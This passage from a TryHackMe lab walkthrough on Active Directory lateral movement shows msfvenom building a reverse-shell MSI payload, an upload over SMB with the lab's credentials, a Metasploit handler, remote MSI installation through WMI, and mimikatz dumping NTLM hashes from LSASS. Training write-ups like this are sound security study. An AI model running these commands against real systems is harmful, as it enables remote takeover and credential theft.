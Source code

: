    ```cmd
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.50.77.144 LPORT=1337 -f msi > msi-kevinovitz.msi

   smbclient -c 'put msi-kevinovitz.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
   ```

   PAYLOAD

   Now we setup another handler in `msfconsole`, taking care to update the payload type used.

   ```cmd
   msfconsole
   use exploit/multi/handler
   set LHOST 10.50.77.144
   set LPORT 1337
   set payload windows/x64/shell_reverse_tcp
   run
   ```

   Now we can start a WMI session against THMIIS.

   ```powershell
   $username = 't1_corine.waters';
   $password = 'Korine.1994';
   $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
   $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
   $Opt = New-CimSessionOption -Protocol DCOM
   $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
   Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\msi-kevinovitz.msi"; Options = ""; AllUsers = $false}
   ```

   After we receive a connection we can access the flag on the users desktop.

   FLAG

   ><details><summary>Click for answer</summary></details>

### Use of Alternate Authentication Material

1. What is the flag obtained from executing "flag.exe" on t1_toby.beck's desktop on THMIIS?

   This time, we won't need a payload. We use the provided credentials to get high-privilege access via SSH to THMJMP2.

   ```cmd
   ssh za.tryhackme.com\\t2_felicia.dean@thmjmp2.za.tryhackme.com
   ```

   We can now use `mimikatz` to dump the NTLM hashes from LSASS memory.

   ```cmd
   C:\tools\mimikatz.exe

   privilege::debug
   sekurlsa::msv
   ```
